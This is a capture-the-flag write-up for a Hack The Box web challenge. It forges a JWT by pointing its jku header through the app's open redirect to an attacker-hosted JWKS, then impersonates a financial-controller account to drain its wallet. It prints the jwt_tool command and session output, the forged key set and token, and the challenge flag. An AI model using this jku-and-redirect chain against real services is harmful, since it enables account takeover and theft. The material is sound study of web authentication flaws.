



Downloading the source, there is just the one app.

We can register our user and login with any email that isn't taken:



Logging in we have, this view:



In `Friends` we can add people via their emails, which allows us to do `Transactions` with them. `Portfolio` just shows our account value.

I spot this code snippet which showcases the requirement for the flag:
```js
/**
 * Checks if the financial controller's CLCR wallet is drained
 * If drained, returns the flag.
 */
export const checkFinancialControllerDrained = async () => {
    const balances = await getBalancesForUser(FINANCIAL_CONTROLLER_EMAIL);
    const clcrBalance = balances.find((coin) => coin.symbol === 'CLCR');

    if (!clcrBalance || clcrBalance.availableBalance <= 0) {
        const flag = (await fs.readFile('/flag.txt', 'utf-8')).trim();
        return { drained: true, flag };
    }

    return { drained: false };
};
```

If the `CLCR` coin is drained from the `financial-controller@frontier-board.htb` account, the flag will be displayed on the `financial-controller@frontier-board.htb` accounts dashboard.

Looking into the authentication, I spot the JWT token in the `Authorization` header.

I use [jwt.io](https://jwt.io) to investigate it.



We can see the `jku` is a URL, there are exploits involving the `jku` but let's check how the verification of the token works. 

```js
export const verifyToken = async (token) => {
    try {
        const decodedHeader = jwt.decode(token, { complete: true });

        if (!decodedHeader || !decodedHeader.header) {
            throw new Error('Invalid token: Missing header');
        }

        const { kid, jku } = decodedHeader.header;

        if (!jku) {
            throw new Error('Invalid token: Missing header jku');
        }

        // TODO: is this secure enough?
        if (!jku.startsWith('http://127.0.0.1:1337/')) {
            throw new Error('Invalid token: jku claim does not start with http://127.0.0.1:1337/');
        }

        if (!kid) {
            throw new Error('Invalid token: Missing header kid');
        }

        if (kid !== KEY_ID) {
            return new Error('Invalid token: kid does not match the expected key ID');
        }

        let jwks;
        try {
            const response = await axios.get(jku);
            if (response.status !== 200) {
                throw new Error(`Failed to fetch JWKS: HTTP ${response.status}`);
            }
            jwks = response.data;
        } catch (error) {
            throw new Error(`Error fetching JWKS from jku: ${error.message}`);
        }

        if (!jwks || !Array.isArray(jwks.keys)) {
            throw new Error('Invalid JWKS: Expected keys array');
        }

        const jwk = jwks.keys.find((key) => key.kid === kid);
        if (!jwk) {
            throw new Error('Invalid token: kid not found in JWKS');
        }

        if (jwk.alg !== 'RS256') {
            throw new Error('Invalid key algorithm: Expected RS256');
        }

        if (!jwk.n || !jwk.e) {
            throw new Error('Invalid JWK: Missing modulus (n) or exponent (e)');
        }

        const publicKey = jwkToPem(jwk);

        const decoded = jwt.verify(token, publicKey, { algorithms: ['RS256'] });
        return decoded;
    } catch (error) {
        console.error(`Token verification failed: ${error.message}`);
        throw error;
    }
};
```

All it's checking is if the `jku` starts with `http://127.0.0.1:1337/`, which is the server and port this app is hosted on locally. If we can find an open redirect we can redirect the page to our own `jwks.json` and change the authentication flow.

I search the source code for `redirect` and get a hit of interest:
```js
...
    fastify.get('/redirect', async (req, reply) => {
        const { url, ref } = req.query;

        if (!url || !ref) {
            return reply.status(400).send({ error: 'Missing URL or ref parameter' });
        }
        // TODO: Should we restrict the URLs we redirect users to?
        try {
            await trackClick(ref, decodeURIComponent(url));
            reply.header('Location', decodeURIComponent(url)).status(302).send();
        } catch (error) {
            console.error('[Analytics] Error during redirect:', error.message);
            reply.status(500).send({ error: 'Failed to track analytics data.' });
        }
    });
```

We can redirect users with `/api/analytics/redirect?ref=x&url=https://seall.dev`!

We can now setup a payload with `jwt_tool` and some modificataion.

`jwt_tool` uses `https://httpbin.org/base64/<b64>` to send their `jwks.json` so I generate one by trying to use the `-X s` exploit and use it.

In my case this was my `jwks.json`:
```json
{
    "keys":[
        {
            "kty":"RSA",
            "kid":"fb66c4ca-15fe-47b5-9ce5-e5b7725a0715",
            "alg":"RS256",
            "use":"sig",
            "e":"AQAB",
            "n":"i7bgGj8MHGsWuLRoI520QbZLG7YLpAk-WUOJ2KBnOMoLk7aTz-TzoMcm7wwU8S7hVfoZK_ql4YBPeXcKqbMMTxP4r20MdGOJXQ5w8Bqajk_X1xcmpzJZQ4zh6InXvkSPpfs2Dz3VnjS_3zQk8xVpqndVjrUUqnU98-2cpGq01l48bpZPuXQnPEKpzlTYZavDMweIXRrGACoxXzSZA3Re9QOrqz22xW0Y0sn-EWA-I6BfwgxtwVy1I4RdKKQn2qKz7ZwnDqDz8AuLUo502MQMDTK1mGBq6TiuJaZsfbI90JCdsEu6RLAjBpc_V4zilp8XaM_vfc5iOaTJGhdfYwKXFw"
        }
    ]
}
```

I had to add the `alg` and update the `kid` to reflect the source code.

I could then use the tool like so:
```bash
$ python3 jwt_tool.py "ey...w" -X s -T -ju 'http://127.0.0.1:1337/api/analytics/redirect?ref=seall.dev&url=https://httpbin.org/base64/e...='


        \   \        \         \          \                    \ 
   \__   |   |  \     |\__    __| \__    __|                    |
         |   |   \    |      |          |       \         \     |
         |        \   |      |          |    __  \     __  \    |
  \      |      _     |      |          |   |     |   |     |   |
   |     |     / \    |      |          |   |     |   |     |   |
\        |    /   \   |      |          |\        |\        |   |
 \______/ \__/     \__|   \__|      \__| \______/  \______/ \__|
 Version 2.2.7                \______|             @ticarpi      

Original JWT: 
                                                                                                                                                                                                                                                                                                                            

====================================================================                                                                                                                                                                                                                                                        
This option allows you to tamper with the header, contents and                                                                                                                                                                                                                                                              
signature of the JWT.                                                                                                                                                                                                                                                                                                       
====================================================================                                                                                                                                                                                                                                                        

Token header values:                                                                                                                                                                                                                                                                                                        
[1] alg = "RS256"
[2] typ = "JWT"
[3] kid = "fb66c4ca-15fe-47b5-9ce5-e5b7725a0715"
[4] jku = "http://127.0.0.1:1337/.well-known/jwks.json"
[5] *ADD A VALUE*
[6] *DELETE A VALUE*
[0] Continue to next step

Please select a field number:                                                                                                                                                                                                                                                                                               
(or 0 to Continue)                                                                                                                                                                                                                                                                                                          
> 0

Token payload values:                                                                                                                                                                                                                                                                                                       
[1] email = "test@test.test"
[2] iat = 1734144114    ==> TIMESTAMP = 2024-12-14 13:41:54 (UTC)
[3] *ADD A VALUE*
[4] *DELETE A VALUE*
[5] *UPDATE TIMESTAMPS*
[0] Continue to next step

Please select a field number:                                                                                                                                                                                                                                                                                               
(or 0 to Continue)                                                                                                                                                                                                                                                                                                          
> 1

Current value of email is: test@test.test                                                                                                                                                                                                                                                                                   
Please enter new value and hit ENTER
> financial-controller@frontier-board.htb
[1] email = "financial-controller@frontier-board.htb"
[2] iat = 1734144114    ==> TIMESTAMP = 2024-12-14 13:41:54 (UTC)
[3] *ADD A VALUE*
[4] *DELETE A VALUE*
[5] *UPDATE TIMESTAMPS*
[0] Continue to next step

Please select a field number:                                                                                                                                                                                                                                                                                               
(or 0 to Continue)                                                                                                                                                                                                                                                                                                          
> 5
Timestamp updating:
[1] Update earliest timestamp to current time (keeping offsets)
[2] Add 1 hour to timestamps
[3] Add 1 day to timestamps
[4] Remove 1 hour from timestamps
[5] Remove 1 day from timestamps

Please select an option from above (1-5):                                                                                                                                                                                                                                                                                   
> 1
[1] email = "financial-controller@frontier-board.htb"
[2] iat = 1734186607    ==> TIMESTAMP = 2024-12-15 01:30:07 (UTC)
[3] *ADD A VALUE*
[4] *DELETE A VALUE*
[5] *UPDATE TIMESTAMPS*
[0] Continue to next step

Please select a field number:                                                                                                                                                                                                                                                                                               
(or 0 to Continue)                                                                                                                                                                                                                                                                                                          
> 0
Paste this JWKS into a file at the following location before submitting token request: http://127.0.0.1:1337/api/...=                   
(JWKS file used: /home/n/.jwt_tool/jwttool_custom_jwks.json)                                                                                                                                                                                                                                                                
/home/n/.jwt_tool/jwttool_custom_jwks.json                                                                                                                                                                                                                                                                                  
jwttool_3ddbc87de3c3a0c28d4cd4b6ad863333 - Signed with JWKS at http://127.0.0.1:1337/api/...=                                           
[+] eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCIsImtpZCI6ImZiNjZjNGNhLTE1ZmUtNDdiNS05Y2U1LWU1Yjc3MjVhMDcxNSIsImprdSI6Imh0dHA6Ly8xMjcuMC4wLjE6MTMzNy9hcGkvYW5hbHl0aWNzL3JlZGlyZWN0P3JlZj1zZWFsbC5kZXYmdXJsPWh0dHBzOi8vaHR0cGJpbi5vcmcvYmFzZTY0L2V3b2dJQ0FnSW10bGVYTWlPbHNLSUNBZ0lDQWdJQ0I3Q2lBZ0lDQWdJQ0FnSUNBZ0lDSnJkSGtpT2lKU1UwRWlMQW9nSUNBZ0lDQWdJQ0FnSUNBaWEybGtJam9pWm1JMk5tTTBZMkV0TVRWbVpTMDBOMkkxTFRsalpUVXRaVFZpTnpjeU5XRXdOekUxSWl3S0lDQWdJQ0FnSUNBZ0lDQWdJbUZzWnlJNklsSlRNalUySWl3S0lDQWdJQ0FnSUNBZ0lDQWdJblZ6WlNJNkluTnBaeUlzQ2lBZ0lDQWdJQ0FnSUNBZ0lDSmxJam9pUVZGQlFpSXNDaUFnSUNBZ0lDQWdJQ0FnSUNKdUlqb2lhVGRpWjBkcU9FMUlSM05YZFV4U2IwazFNakJSWWxwTVJ6ZFpUSEJCYXkxWFZVOUtNa3RDYms5TmIweHJOMkZVZWkxVWVtOU5ZMjAzZDNkVk9GTTNhRlptYjFwTFgzRnNORmxDVUdWWVkwdHhZazFOVkhoUU5ISXlNRTFrUjA5S1dGRTFkemhDY1dGcWExOVlNWGhqYlhCNlNscFJOSHBvTmtsdVdIWnJVMUJ3Wm5NeVJIb3pWbTVxVTE4emVsRnJPSGhXY0hGdVpGWnFjbFZWY1c1Vk9UZ3RNbU53UjNFd01XdzBPR0p3V2xCMVdGRnVVRVZMY0hwc1ZGbGFZWFpFVFhkbFNWaFNja2RCUTI5NFdIcFRXa0V6VW1VNVVVOXljWG95TW5oWE1Ga3djMjR0UlZkQkxVazJRbVozWjNoMGQxWjVNVWswVW1STFMxRnVNbkZMZWpkYWQyNUVjVVI2T0VGMVRGVnZOVEF5VFZGTlJGUkxNVzFIUW5FMlZHbDFTbUZhYzJaaVNUa3dTa05rYzBWMU5sSk1RV3BDY0dOZlZqUjZhV3h3T0ZoaFRWOTJabU0xYVU5aFZFcEhhR1JtV1hkTFdFWjNJZ29nSUNBZ0lDQWdJSDBLSUNBZ0lGMEtmUW89In0.eyJlbWFpbCI6ImZpbmFuY2lhbC1jb250cm9sbGVyQGZyb250aWVyLWJvYXJkLmh0YiIsImlhdCI6MTczNDE4NjYwN30.PnwKkeuzCQnf4z9CfLnYTqyd4fo0p37JpSq8SvfnwAufxgn4PLCrFFWOcfaSYhz7icS5095ef-tPdgOAGh1gDgqzftEmF9vi7orQtgBC6HMKth1vc2Qk8lbQRuqwvsbi_iK3t_06MF8lstIy6DP9rpPdNHaE2UcLn-f-lQg3wzeH7PW2oI9KfXpB0nQXtslQ726mx864aYY9sn4FCwldwoNazterl4ngiXGsTqQImYDVxfJ8mQo95h9rSxga09TbGEX4y--B6baCRQCxTS65ENkuS_b-fAVg0JoV5-iC4tNPX11FIGSiaLqOmdVy5UU-VeLcikdFGxUc7E8EPvTawA
```

We can now use that JWT to become the `financial-controller@frontier-board.htb` account. Now we can become friends with them and transfer myself all the funds!

I send them a friend request from my account, then use the token to become the `financial-controller` and transfer all the CLCR coin.

The dashboard then displays the flag!

Flag: `HTB{rugg3d_pu11ed_c0nqu3r3d_d14m0nd_h4nd5_38535963e2e43d2e93df6e990bf4e226}`